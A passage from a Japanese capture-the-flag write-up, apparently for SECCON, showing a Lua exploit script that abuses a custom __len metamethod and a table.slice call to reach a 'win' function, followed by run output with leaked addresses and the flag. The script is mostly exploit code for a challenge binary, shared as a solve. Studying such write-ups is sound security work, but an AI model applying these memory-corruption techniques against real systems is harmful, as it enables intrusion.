 ```lua
st = string.rep(st, 100)
print(string.len(st))


string_data = "HELLO"
change_me = table.pack

x = {
  "A", "B",
  st,
  "C", "D"
}

-- size = 2147483647
size = 1000

custom_functions = {}
function custom_functions.__len(a)
  return size - 1
end

setmetatable(x, custom_functions)

print("WHEREAMI")

offset = 59
s = table.slice(x, offset - 10, offset + 10, win, '\x22')

s[1]()
```

コメントを一つ外したりなにか条件が変わると動かなくなる不安定さがあり、力不足を感じる...

```
55db7efed220
found win:55db7efcda40
16
1600
WHEREAMI
SECCON{D1d_y0u_wr1t3_st4bl3_3xpl01t_w1th0ut_Pwn1ng_glibc_h34p?}
[+] Done!
[*] Got EOF while reading in interactive
```

まぁ通せたからええ。

# 感想

10solve 以下の問題通したの初めてで嬉しい。
babyfile も通したかった
